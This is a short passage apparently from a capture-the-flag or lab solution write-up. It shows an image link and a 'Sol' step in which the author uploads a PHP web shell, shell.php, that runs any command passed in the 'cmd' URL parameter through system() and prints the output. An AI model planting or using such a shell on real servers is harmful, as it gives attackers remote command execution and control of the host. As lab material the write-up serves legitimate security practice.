

#### Sol:

I uploaded this file as a shell

shell.php

```
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```



